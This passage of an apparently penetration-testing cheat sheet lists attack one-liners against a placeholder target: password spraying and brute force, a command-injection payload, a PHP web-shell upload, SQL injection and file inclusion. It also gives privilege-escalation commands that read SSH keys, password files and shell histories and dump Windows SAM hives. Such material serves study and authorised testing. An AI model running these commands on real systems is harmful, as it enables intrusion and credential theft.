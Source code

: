 - **Password reuse / spray:** `crackmapexec smb <target> -u users.txt -p "Summer2024"`
- **Brute-force:** `hydra -L users.txt -P /usr/share/wordlists/rockyou.txt ssh://<target>`
- **Hash-crack:** `john --wordlist=rockyou.txt hash.txt`

### Web attacks

| Vector | Go-to snippet |
| --- | --- |
| Command injection | `curl -G "http://<target>/ping?ip=127.0.0.1;id"` |
| File uploads | `curl -F "file=@shell.php" http://<target>/upload.php` then browse `/uploads/shell.php` |
| SQLi | `sqlmap -u "http://<target>/item.php?id=1" --batch --current-db` |
| Other (LFI/RFI) | `curl "http://<target>/index.php?page=../../../../etc/passwd"` |
| CMS exploit | `wpscan --url http://<target> --enumerate vp --api-token <token>` then `searchsploit <vuln>` |

## Privilege Escalation

### Quick recon

```bash
whoami          # Windows: whoami /all
id              # Linux
sudo -l         # Linux
systeminfo      # Windows OS & patch level
uname -a        # Linux kernel
```

### Users / groups / env

- `cat /etc/passwd` | `net user /domain`
- `groups` | `whoami /groups`
- `env` / `printenv` | `set`

### Files & directories (pick & mix)

```bash
find / -perm -4000 -type f 2>/dev/null      # SUIDs
grep -Ri "password" /home /opt 2>/dev/null  # creds
ls -la /root /home/*/.*_history            # histories
```

- SSH keys → `cat ~/.ssh/id_rsa`
- SAM & SYSTEM → `reg save HKLM\\SAM sam` + `reg save HKLM\\SYSTEM system`

### Automated enum

- `./linpeas.sh -a` | `winpeas.exe cmd > winpeas.txt`
- `./pspy64` (watch cron / processes)

### Suspicious services
